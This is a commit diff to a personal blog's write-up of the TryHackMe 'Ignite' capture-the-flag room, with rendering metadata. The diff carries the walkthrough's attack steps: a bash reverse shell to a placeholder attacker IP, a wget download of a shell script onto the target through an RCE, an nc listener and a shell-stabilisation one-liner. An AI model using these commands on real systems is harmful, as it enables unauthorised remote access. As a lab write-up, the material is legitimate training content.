

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-09-20-Ignite.md, in a window 1280 px wide and 1400 px high, scrolled down 1335 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-09-20-Ignite.md

```diff
--- a/_posts/2025-09-20-Ignite.md
+++ b/_posts/2025-09-20-Ignite.md
@@ -11,7 +11,6 @@ TRYHACKME CTF WRITE-UP
 [tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)
 
 
->
 
 
 We start off by enumerating open ports with with Nmap
@@ -72,6 +73,7 @@ Running a few basic commands we can begin to enumerate directories and verify pr
 
 
 We can see that we are the 'systemwww-data' user
+
 Moving around shows us that we likely only have permission to write to the web server directory path
 Let's see if we can download a reverse shell script to the target machine in the web directory path
 
@@ -84,16 +86,13 @@ $ bash -i >& /dev/tcp/attacker_ip/port 0>&1
 {% endhighlight bash %}
 
 
-You can find the reverse shell used here and more at: [pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
+You can find the reverse shell used here and more shells at: [pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
 
 
 
 
 We can save the script as a '.sh' file on our machine
-Let's use 'wget' to download the script onto target machine using the RCE exploit
-
-
-![img]({{ '/assets/images/ignite_pics/5-ignite.png' | relative_url }}){: .center-image }
+Now let's use 'wget' to download the script onto target machine using the RCE exploit
 
 
 {% highlight bash %}
@@ -102,15 +101,16 @@ wget http://attacker_IP/pth/2/script
 
 
 We see the file was downloaded successfully
+
+![img]({{ '/assets/images/ignite_pics/5-ignite.png' | relative_url }}){: .center-image }
+
 Now we can start our listener on our machine, and then run the script using the command below
 
 {% highlight bash %}
-Attacker machine:
-nc -lvnp <port>
-{% endhighlight bash %}
+# Attacker machine:
+$ nc -lvnp <port>
 
-Target machine:
-{% highlight bash %}
+# Target machine:
 $ bash shell.sh
 {% endhighlight bash %}
 
@@ -125,11 +125,11 @@ We now receive the shell connection on our machine !
 
 Lets stabilize our shell with the command below:
 {% highlight bash %}
-python3 -c 'import pty; pty.spawn("/bin/bash")'
+$ python3 -c 'import pty; pty.spawn("/bin/bash")'
 {% endhighlight bash %}
 
 
-Lets move back a few directories into the '/home' directory in order to get the user flag...
+Lets move back a few directories into the '/home' directory in order to get the user flag
 
 We find the user flag in '/home/www-data/flag.txt'
 
```
Also changed, not shown: other parts of _posts/2025-09-20-Ignite.md (+6 -5 lines).
